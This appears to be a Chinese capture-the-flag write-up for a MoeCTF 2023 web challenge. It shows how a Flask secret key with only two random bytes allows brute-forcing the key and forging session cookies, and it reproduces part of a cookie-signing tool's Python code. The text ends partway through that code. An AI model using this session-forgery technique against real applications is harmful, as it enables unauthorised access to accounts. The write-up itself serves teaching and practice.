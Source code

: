 [toc]
# MoeCTF 2023 Web 部分复现
## moeworld 

### 攻击公网服务器

打开页面是一个登录界面，创建一个账号进去之后，发现有提示
```
flask框架
而且session的密钥为 app.secret_key = "This-random-secretKey-you-can't-get" + os.urandom(2).hex()
```

session的密钥只有两位随机，猜测可以爆破，考虑 flask session 伪造

#### flask session 伪造
使用工具 [flask-session-cookie-manager](https://github.com/noraj/flask-session-cookie-manager)

编写 python 脚本爆破
这里是在 ```flask_session_cookie_manager3.py``` 文件的部分代码基础上，进行了修改
```python
#!/usr/bin/env python3

# standard imports
import sys
import zlib
from itsdangerous import base64_decode
import ast
import itertools

# Abstract Base Classes (PEP 3119)
if sys.version_info[0] < 3: # < 3.0
    raise Exception('Must be using at least Python 3')
elif sys.version_info[0] == 3 and sys.version_info[1] < 4: # >= 3.0 && < 3.4
    from abc import ABCMeta, abstractmethod
else: # > 3.4
    from abc import ABC, abstractmethod

# Lib for argument parsing
import argparse

# external Imports
from flask.sessions import SecureCookieSessionInterface

class MockApp(object):

    def __init__(self, secret_key):
        self.secret_key = secret_key


if sys.version_info[0] == 3 and sys.version_info[1] < 4: # >= 3.0 && < 3.4
    class FSCM(metaclass=ABCMeta):
        def encode(secret_key, session_cookie_structure):
            """ Encode a Flask session cookie """
            try:
                app = MockApp(secret_key)

                session_cookie_structure = dict(ast.literal_eval(session_cookie_structure))
                si = SecureCookieSessionInterface()
                s = si.get_signing_serializer(app)

                return s.dumps(session_cookie_structure)
            except Exception as e:
                return "[Encoding error] {}".format(e)
```